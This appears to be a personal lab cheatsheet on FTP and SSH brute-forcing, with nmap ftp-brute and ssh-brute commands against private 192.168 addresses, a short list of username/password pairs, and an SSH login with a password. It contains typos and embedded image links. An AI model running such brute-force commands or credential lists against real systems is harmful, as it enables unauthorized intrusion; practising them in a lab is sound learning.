FTP cheatsheet---


-script=ftp

-script=ftp-brute

Raw Keyword


![[Trash/SYNC/Images/Pasted image 20230929152945.png]]


nmap --script=ftp-brute --script-args brute.credfile=asswords.txt 192.168.56.117

cisco/password123
ciso/admin
ciso/friday



ftp --script=ftp-brute ^c
vim credcombo.txt
gedit credcombo.txtnma

nmap --script=ssh-brute --script-args brute.credfile=credcombo.txt 192.168.1.18

ssh ciso@192.168.1.18
pw: root
![[Trash/SYNC/Images/Pasted image 20230929160248.png]]


![[Trash/SYNC/Images/Pasted image 20230929160632.png]]

_______________
